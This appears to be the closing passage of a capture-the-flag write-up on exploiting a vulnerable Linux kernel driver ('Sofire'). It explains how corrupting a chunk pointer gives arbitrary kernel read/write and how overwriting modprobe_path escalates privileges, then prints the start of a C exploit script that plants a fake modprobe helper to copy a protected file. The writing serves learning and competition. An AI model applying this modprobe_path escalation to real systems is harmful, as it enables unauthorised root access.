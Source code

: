 The first pointer in the sofirium chunk is so helpful, as we can change it to read and write anywhere, as it effectively changes the next chunk location in the nft linked list. With this we can try to search the kmalloc-512 cache for a kernel leak, and then write to modprobe path.

### Thats it
Thats it tbh. From there you can follow [this](https://lkmidas.github.io/posts/20210223-linux-kernel-pwn-modprobe/) guide by Midas to get priv escalation by overwritting modprobe_path. Very fun chall!

### Notes
Some things I noted during exploiting this:

* The overlapped chunk has to be aligned to 0x100. This still breaks sometimes, but it NEVER worked if it wasnt aligned
* Allocation is random, so the kernel leak isnt consistant, and it may take some bruteforcing. My exploit works about 1/10 times

Here's the full script:
```c
#include <stdio.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <sched.h>
#include <sys/mman.h>
#include <signal.h>
#include <sys/syscall.h>
#include <sys/ioctl.h>
#include <linux/userfaultfd.h>
#include <sys/wait.h>
#include <poll.h>
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#include <errno.h>

#define CHUNK_SIZE 0x100

typedef struct request{
    int idx;
    char buffer[CHUNK_SIZE];
} request;

void get_flag(void){
    puts("[*] Returned to userland, setting up for fake modprobe");
    
    system("echo '#!/bin/sh\ncp /flag.txt /tmp/flag\nchmod 777 /tmp/flag' > /tmp/x");
    system("chmod +x /tmp/x");

    system("echo -ne '\\xff\\xff\\xff\\xff' > /tmp/dummy");
    system("chmod +x /tmp/dummy");

    puts("[*] Run unknown file");
    system("/tmp/dummy");

    puts("[*] Hopefully flag is readable");
}

int main(int argc, char *argv[])
{
    puts("ASDF");
    int global_fd = open("/dev/Sofire", O_RDONLY);
    request data;
    data.idx = 0;
```
